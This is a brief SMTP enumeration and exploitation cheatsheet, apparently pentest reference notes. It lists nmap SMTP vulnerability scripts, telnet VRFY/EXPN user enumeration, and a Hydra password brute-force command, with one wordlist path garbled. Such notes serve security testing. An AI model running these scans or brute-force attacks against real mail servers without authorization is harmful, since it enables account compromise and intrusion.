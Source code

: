 # SMTP Exploitation and Enumeration Cheatsheet

## Nmap Scripts

```bash
nmap 192.168.1.1 --script=smtp* -p 25
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 192.168.1.1
```

## SMTP Connection

```bash
telnet 192.168.1.1 25
VRFY root
EXPN root
```

## Brute Force SMTP with Hydra

```bash
hydra -P /usr/share/wordlistsnmap.lst 192.168.1.1 smtp
